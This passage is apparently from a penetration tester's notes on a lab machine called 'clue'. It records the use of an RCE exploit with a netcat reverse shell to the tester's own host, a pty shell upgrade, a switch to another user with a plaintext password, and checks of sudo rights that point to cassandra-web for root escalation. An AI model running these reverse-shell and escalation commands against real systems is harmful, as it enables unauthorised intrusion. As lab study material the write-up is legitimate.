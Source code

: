 

so the password is actually set to StrongClueConEight021, updated that in our RCE exploit

└─$ python3 exploit.py 192.168.199.240 'nc 192.168.45.213 3000'  ===========> no worky
└─$ python3 exploit.py 192.168.199.240 'nc 192.168.45.213 3000 -e /bin/bash'

Able to log in and su to cassie, from there I can check out the home dir and see shek can run sudo cassandra-web with no password

python -c 'import pty; pty.spawn("/bin/bash")'

```
ls
anthony
cassie
su cassie
SecondBiteTheApple330
id
uid=1000(cassie) gid=1000(cassie) groups=1000(cassie)
cd /home/cassie
ls
id_rsa
ls -asl
total 32
4 drwxr-xr-x 4 cassie cassie 4096 Aug 11  2022 .
4 drwxr-xr-x 4 root   root   4096 Aug  5  2022 ..
0 lrwxrwxrwx 1 root   root      9 Aug  5  2022 .bash_history -> /dev/null
4 -rw-r--r-- 1 cassie cassie  220 Apr 18  2019 .bash_logout
4 -rw-r--r-- 1 cassie cassie 3526 Apr 18  2019 .bashrc
4 drwx------ 3 cassie cassie 4096 Aug 11  2022 .gnupg
4 -rw------- 1 cassie cassie 1823 Aug 11  2022 id_rsa
4 -rw-r--r-- 1 cassie cassie  807 Apr 18  2019 .profile
4 drwx------ 2 cassie cassie 4096 Aug 11  2022 .ssh
cd .ssh
ls
known_hosts
cd ..
sudo -l
Matching Defaults entries for cassie on clue:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cassie may run the following commands on clue:
    (ALL) NOPASSWD: /usr/local/bin/cassandra-web
```

Can try launching an alt of the site and as root and lets see if we can gain root access through that

```
cassandra-web -h
Usage: cassandra-web [options]
    -B, --bind BIND                  ip:port or path for cassandra web to bind on (default: 0.0.0.0:3000)
    -H, --hosts HOSTS                coma-separated list of cassandra hosts (default: 127.0.0.1)
    -P, --port PORT                  integer port that cassandra is running on (default: 9042)
    -L, --log-level LEVEL            log level (default: info)
    -u, --username USER              username to use when connecting to cassandra
    -p, --password PASS              password to use when connecting to cassandra
    -C, --compression NAME           compression algorithm to use (lz4 or snappy)
        --server-cert PATH           server ceritificate pathname
        --client-cert PATH           client ceritificate pathname
        --private-key PATH           path to private key
        --passphrase SECRET          passphrase for the private key
    -h, --help                       Show help
cassie@clue:/$ 
```